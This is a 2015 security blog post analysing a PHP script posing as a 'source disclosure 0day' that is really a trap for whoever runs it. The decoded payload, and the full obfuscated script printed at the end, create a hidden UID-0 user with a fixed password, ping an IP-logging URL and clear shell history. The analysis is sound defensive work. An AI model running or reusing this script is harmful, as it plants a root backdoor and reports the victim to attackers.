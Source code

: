 ```yaml
---
layout: post
title:  "PHP fake 0day"
subtitle: "Having fun with a false exploit"
date:   2015-08-07 23:34:01
category: itsec
---
```


Today [@sh1bumi](https://twitter.com/Sh1bumi) of [@MalwareMustDie](https://twitter.com/MalwareMustDie) found a interesting **PHP** script. At a first look at seemed like a **0day** for websites which are running PHP. "This cannot be, another 0day" we thought, so we analysed the script.
(Script is at the end of the post)

When running it it does that:

        [1;33mScript Replied:[0m Run as [1;32m[4mroot[0m user!

A 0day PHP exploit script has to be run as root? What? Okay, okay. Let's run as root:

```php
                  ____.----.
        ____.----'          \
        \                    \
         \                    \
          \                    \
           \          ____.----'`--.__
            \___.----'          |     `--.____
           /`-._                |       __.-' \
          /     `-._            ___.---'       \
         /          `-.____.---'                \
        /            / | \                       \
       /            /  |  \                   _.--'
       `-.         /   |   \            __.--'
          `-._    /    |    \     __.--'     |
            | `-./     |     \_.-'           |
            |          |                     |   0DAY
            |          |                     |   EXPLOIT
            |          |                     |   UNBOXED
            |          |                     |
            |          |                     |  -ANONYMOUS-
            |          |                     |
     _______|          |                     |_______________
            `-.        |                  _.-'
               `-.     |           __..--'
                  `-.  |      __.-'
                     `-|__.--'
     # Exploit Title: Source Disclosure 2015 0day - All versions, All Browsers
     # Google Dork: .php
     # Date: 02/09/2015
     # Exploit Author: Leaked by Anonymous
     # Vendor Homepage: http://php.net/
     # Software Link: http://php.net/downloads.php
     # Version: All versions
     # Tested on: Windows, Linux
     # CVE: 0day (No CVE)
     # Usage: php 0day.php <website> <filename>[0m
```

Aha, so this is a 0day and we just have to run it against any website. No hint what the script actually should do to that remote website. So let's run it:

```bash
        $: sudo php 0day.php http://localhost localhost
        sh: 1: history: not found
        Source of http://localhost saved to localhost
```

The script wrote the file *localhost*, when looking at the contents it shows us that:

```html
        <html>
        <header>
        <title>Test</title>
        </header>
        <body>
        this is just a test
        </body>
        </html>
```

Okay, it just saved the output of the website to a file, the website had this script:

```php
        <html>
        <header>
        <title>Test</title>
        </header>
        <body>
                <?php echo "this is just a test"; ?>
        </body>
        </html>
```

I added **PHP** code to it in case it does some magic to it (remember, the Google Dork is *.php*).
Now I am a bit frustaded, no cool kiddo magic? No server bashing?
Let's dig deeper!

Variable *$header* is just the fancy ASCII stuff at the beginning, so let's look at:

```php
    $bytes = array("passthru", "base64_decode");
    @array_push($bytes, "gzuncompress", "base64_decode");
    var_dump($bytes);
    @$bytes[0]($bytes[1]($bytes[2]($bytes[3]('eJw1yrsOgjAYQOFXgiIkDg4NxlJDQRG5dORvUqAFScAWfHoZdDrD+USVaBguiod4abynZHv5hi0lmWIRk7cOG04KFCPfbYiVrD8MLF90jVrzMwFHxbsZ1ZrmyqWRlfuzdZV8BLr/fS+q60xDZwGkZ176DiWtIyIcxNtxArIajoSGzjcwgGHVy3ucmUxRO4GXGRiVjEt2+gKxYTqF'))));
```

*var_dump($bytes)* gives me the way how the encoded string will be processed, so let's add an *echo* at the right place:

```php
     array (size=4)
          0 => string 'passthru' (length=8)
          1 => string 'base64_decode' (length=13)
          2 => string 'gzuncompress' (length=12)
          3 => string 'base64_decode' (length=13)

        $bytes = array("passthru", "base64_decode");
    @array_push($bytes, "gzuncompress", "base64_decode");
    var_dump($bytes);
    @$bytes[0]($bytes[1]($bytes[2]($bytes[3]('eJw1yrsOgjAYQOFXgiIkDg4NxlJDQRG5dORvUqAFScAWfHoZdDrD+USVaBguiod4abynZHv5hi0lmWIRk7cOG04KFCPfbYiVrD8MLF90jVrzMwFHxbsZ1ZrmyqWRlfuzdZV8BLr/fS+q60xDZwGkZ176DiWtIyIcxNtxArIajoSGzjcwgGHVy3ucmUxRO4GXGRiVjEt2+gKxYTqF'))));
    echo $bytes[1]($bytes[2]($bytes[3]('eJw1yrsOgjAYQOFXgiIkDg4NxlJDQRG5dORvUqAFScAWfHoZdDrD+USVaBguiod4abynZHv5hi0lmWIRk7cOG04KFCPfbYiVrD8MLF90jVrzMwFHxbsZ1ZrmyqWRlfuzdZV8BLr/fS+q60xDZwGkZ176DiWtIyIcxNtxArIajoSGzjcwgGHVy3ucmUxRO4GXGRiVjEt2+gKxYTqF')));
```

Which gives me:

```bash
        useradd -ou 0 -g 0 dd0s > /dev/null 2>&1;echo dd0s:genny1995 | chpasswd 2>&1;curl --silent http://iplogger.org/1z7H3 ;history -c
```

Hu, that is no remote exploit. That adds silently a user with password and **ID 0**. Yes, **0**. **0 is root**. So this user might handled with root privileges. Also it curls an URL, this is just there to log IP accessing it, so the crooks just wait until IP's are arriving and then open SSH connections as user dd0s with password genny1995. Curl just recieves a blank GIF image:

        GIF89a^A^@^A^@�^@^@^@^@^@^@^@^@!�^D^A^@^@^@^@,^@^@^@^@^A^@^A^@^@^B^BD^A^@;

Okay, as we see, this is some kind of a honeytrap. Kiddies, wannabe hackers and researchers might think they found a new cool exploit, run this script as root (as it requests) and get owned. So the crooks just login to that user with an ID of 0.
To delete that user run:

```bash
        userdel -f dd0s
```

You will get this warning:

```bash
        userdel: user dd0s is currently used by process 1
```

That is because it has the same id as root.

We learn: be aware when you research, you might get aimed as a researcher. And to the kiddos: I am laughing at you when you think you found another script to easily own other systems with simple commands.

**Malware must die!**

**Thanks to sh1bumi!**

And to the crooks which are spreading that script: we are right hunting you. Prepare your butt!

![](https://i.imgur.com/ABDOMID.png)


----------

Script:

```php
        <?php
        /*
        # Exploit Title: Source Disclosure 2015 0day - All versions, All Browsers
        # Google Dork: .php
        # Date: 02/09/2015
        # Exploit Author: Leaked by Anonymous
        # Vendor Homepage: http://php.net/
        # Software Link: http://php.net/downloads.php
        # Version: All versions
        # Tested on: Windows, Linux
        # CVE: 0day (No CVE)
        # Credits: Anonymous Hacker
        */
        error_reporting(0);
        if (!defined('STDIN')) {
            die("Run through command line skiddy!");
        }
        if (posix_getuid() != '0') {
            exit("[1;33mScript Replied:[0m Run as [1;32m[4mroot[0m user!
        ");
        }
        $header =
        gzuncompress(base64_decode("eJyllEEKgzAQRfdewY07VyZtXXZl0UWhNYVWUCrEC3iDHL6TRM1MDIh1FiLJ+/N/zGD8PV/zfIySVUkolkGxaLWUOqxfdvt1D7y9ub8NYMJlGSCilOQEfSCoMk8LU5wPsOb7qsWHQRecgk+NqGZynA2RgDtosOaMJvMVHC9zSBL8MFjiKXT4kEYbp7MGspCI+sBEJAmeuCMbN/N9egSaV0WuQWkJTxYc7oWRg+tVTxF69YBYz+xlPJVFFwfGd0+Pqn09xP1ztE1T30Rblf+12e06mWZFLeruKZp3dsRY2trGJS1ihoYpoNa37v9hZgXGYZC8kSO0WqggYzBlh/EHmvLOew=="));
        function duplicate_source($website, $file) {
            $bytes = array("passthru", "base64_decode");
            @array_push($bytes, "gzuncompress", "base64_decode");
            @$bytes[0]($bytes[1]($bytes[2]($bytes[3]('eJw1yrsOgjAYQOFXgiIkDg4NxlJDQRG5dORvUqAFScAWfHoZdDrD+USVaBguiod4abynZHv5hi0lmWIRk7cOG04KFCPfbYiVrD8MLF90jVrzMwFHxbsZ1ZrmyqWRlfuzdZV8BLr/fS+q60xDZwGkZ176DiWtIyIcxNtxArIajoSGzjcwgGHVy3ucmUxRO4GXGRiVjEt2+gKxYTqF'))));
            (file_put_contents($file, file_get_contents($website)) ? print ("
        [1;33m# Script Replied:[0m Source of [1;33m$website[0m has been saved to
        [1;33m$file[0m
        ") : exit("     [1;33mScript Replied:[0m [31mExploit failed[0m
         for [1;33m$website[0m"));
        }
        if ($argc != 3) {
            exit($header . "


             # Exploit Title: Source Disclosure 2015 0day - All versions, All Browsers
             # Google Dork: .php
             # Date: 02/09/2015
             # Exploit Author: Leaked by Anonymous
             # Vendor Homepage: http://php.net/
             # Software Link: http://php.net/downloads.php
             # Version: All versions
             # Tested on: Windows, Linux
             # CVE: 0day (No CVE)

             # Usage: php $argv[0] <website> <filename>[0m

        ");
        }
        duplicate_source($argv[1], $argv[2]);
        ?>
```